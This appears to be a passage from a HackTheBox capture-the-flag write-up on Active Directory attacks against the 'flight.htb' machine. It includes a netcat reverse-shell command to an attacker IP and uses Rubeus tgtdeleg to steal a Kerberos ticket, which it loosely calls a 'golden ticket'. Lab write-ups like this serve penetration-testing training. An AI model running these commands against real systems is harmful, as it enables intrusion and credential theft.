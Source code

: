 Then paste in this powershell script to get a reverse shell (leveraging nc64.exe that was dropped on the box b4)

```
nc64.exe -e powershell.exe 10.10.14.10 9001
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609200100.png]]

Catch rev shell and run `whoami /all`

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609200149.png]]
- got `SeImpersonatePrivilege`


We are a service account so we can perform a tgt attack using Rubeus!

### Priv Esc 

Sync local time with server 
```
sudo ntpdate -s flight.htb
```

Locate Rubeus in SharpCollection and drop onto rev shell with python server 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609200414.png]]

On rev shell
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609200500.png]]

Then execute

```
.\Rubeus.exe tgtdeleg /nowrap
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609200602.png]]

Got the golden ticket ✨🍫

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609200630.png]]

Save this ticky as `ticket.kirbi.b64`

Then base64 decode this ticky

```
cat ticket.kirbi.b64 | base64 -d > ticket.kirbi
```


#### Convert ticky from .kirbi to .ccache 

```
kirbi2ccache ticket.kirbi ticket.ccache
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609200958.png]]
- good
